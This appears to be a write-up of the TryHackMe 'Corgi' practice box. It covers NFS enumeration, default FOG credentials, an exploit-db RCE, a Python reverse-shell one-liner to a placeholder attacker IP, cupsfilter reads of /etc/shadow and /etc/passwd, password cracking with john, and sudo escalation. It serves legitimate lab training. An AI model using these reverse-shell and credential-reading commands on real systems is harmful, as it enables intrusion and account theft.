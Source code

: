 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap TCP scan
The first thing we do on any vulnerable box is a nmap scan. I went with a TCP-SYN scan with default scripts and all ports

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](Images/nmap_1.png)
![nmap scan pt2](Images/nmap_2.png)

## NFS
From this scan we can see that nfs is installed on the server, lets use `showmount` to see if there are any shares we can mount to our system.

![showmount](Images/showmount.png)

looks like there are 2 shares we can mount, lets use mount one of them and have a look around

![mount](Images/mount.png)

## FOG Project
After looking around we found this fog file, after some quick google searching I found this documentation for something called 'FOG project'

![FOG documentation](Images/FOG_1.png)

And going to `<TARGET-IP>/fog` takes us to a login page

![FOG login](Images/FOG_2.png)

Now that we have a login page we need some credentials. before we try anything else lets try and find some default creds on google.

![FOG default creds](Images/FOG_3.png)

Lucky for us these default credentials worked and we are now logged in to the FOG dashboard

![FOG dashboard](Images/FOG_4.png)

## RCE Exploit
Now that we have access to a dashboard lets have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.

![search on exploitdb](Images/exploit_1.png)

Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811

![exploit contents](Images/exploit_2.png)

Lets try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.

![before file upload](Images/exploit_3.png)
![after file upload](Images/exploit_4.png)

Running the hostname command to test if file upload worked

![testing RCE](Images/exploit_5.png)

## Reverse Shell & Privilege Escalation
Now that we have RCE lets get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![getting reverse shell](Images/rev_shell_1.png)

And stabilise the shell

![stabilising reverse shell](Images/rev_shell_2.png)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First lets find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`
![available binaries](Images/binaries.png)

After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![result on GTFObins](Images/cupsfilter.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![reading the /etc/passwd file pt1](Images/passwd_1.png)
![reading the /etc/passwd file pt2](Images/passwd_2.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![reading the /etc/shadow file pt1](Images/shadow_1.png)
![reading the /etc/shadow file pt2](Images/shadow_2.png)

Lets copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt`

![cracking the hashes](Images/cracked.png)

So now we have a login, lets `su` into the new user and see what permissions they have.sudo 

![checking sudo -l](Images/sudo.png)

It looks like they can run any command, lets try to get into the root account and find the user and root hashes

![sudo su and user hash](Images/usr_hash.png)
![root hash](Images/root_hash.png)